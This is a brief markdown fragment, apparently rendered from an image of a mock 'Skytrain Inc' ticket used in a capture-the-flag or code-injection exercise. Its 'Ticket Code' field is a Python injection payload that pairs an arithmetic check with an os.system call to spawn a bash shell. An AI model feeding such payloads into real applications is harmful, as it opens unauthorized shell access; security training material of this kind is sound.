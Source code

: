 # Skytrain Inc
## Ticket to 
__Ticket Code:__
**179 +25 == 204 and __import__('os').system('bash') == True
